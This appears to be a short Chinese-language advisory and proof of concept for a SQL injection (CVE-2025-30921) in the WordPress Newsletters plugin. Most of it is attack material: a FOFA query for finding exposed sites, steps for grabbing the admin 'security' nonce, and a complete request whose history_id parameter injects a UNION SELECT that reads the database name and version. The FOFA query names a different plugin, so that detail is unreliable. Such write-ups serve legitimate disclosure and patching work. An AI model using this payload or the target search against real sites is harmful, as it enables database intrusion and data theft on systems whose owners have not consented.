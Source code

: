 ## WordPress Newsletters Plugin存在SQL漏洞(CVE-2025-30921)

WordPress在Newsletters插件版本4.9.9.7或更低版本的插件仪表板中查看统计概览图表时/wp-admin/admin.php?page=newsletters，由于对URL参数的输入验证和转义处理不足，会发生SQL注入漏洞。

## fofa

```
body="/wp-content/plugins/web-directory-free"
```

## poc-(需要Administrator权限)
使用浏览器开发者工具，action=wpmlwelcomestats&security=在“元素”选项卡中搜索 并检查 的值security。例如，如果搜索结果如下所示，请记下22b1ac0de6
```
jQuery.getJSON(newsletters_ajaxurl + 'action=wpmlwelcomestats&security=22b1ac0de6', ajaxdata, function(json) {
```
![image](https://github.com/user-attachments/assets/c82f3e9a-fd70-405f-b6d0-d9bd77622f76)

```javascript
http://localhost:8080/wp-admin/admin-ajax.php?action=wpmlwelcomestats&security=<SECURITY VALUE>&type=years&chart=bar&from=2024-12-31&to=2024-12-31&history_id=FOO%27+UNION+SELECT+(CONCAT((DATABASE()),%22-%22,(@@VERSION))),NULL+LIMIT+1,2+%23
```
![image](https://github.com/user-attachments/assets/c178862e-730b-4ba1-bce0-978b74cc0589)

## 漏洞来源
- https://github.com/DoTTak/CVE-2025-30921
